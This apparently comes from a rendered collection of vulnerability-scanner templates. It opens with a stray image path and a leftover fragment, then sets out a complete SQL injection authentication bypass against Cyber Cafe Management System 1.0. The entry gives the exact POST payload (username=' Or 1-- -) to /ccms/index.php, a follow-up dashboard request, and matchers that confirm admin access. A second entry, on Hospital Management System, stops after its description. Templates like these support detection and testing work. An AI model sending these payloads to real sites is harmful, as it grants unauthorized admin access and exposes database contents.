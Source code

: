 **Type - status**
- status
    1. 200

---
# Cyber Cafe Management System 1.0 - SQL Injection
## Description
- Cyber Cafe Management System 1.0 contains multiple SQL injection vulnerabilities via the username and password parameters in the Admin panel. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - cve2022,sqli,auth-bypass,edb,cve
## Requests
### Step - 1
```
POST /ccms/index.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

username=%27+Or+1--+-&password=1&login=

```
### Step - 2
```
GET /ccms/dashboard.php HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. CCMS Admin Dashboard
    2. CCMS ADMIN | Admin
- condition - and

**Type - status**
- status
    1. 200

---
# Hospital Management System 1.0 - SQL Injection
## Description
- Hospital Management System 1.0 contains a SQL injection vulnerability via the editid parameter in /HMS/doctor.php. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
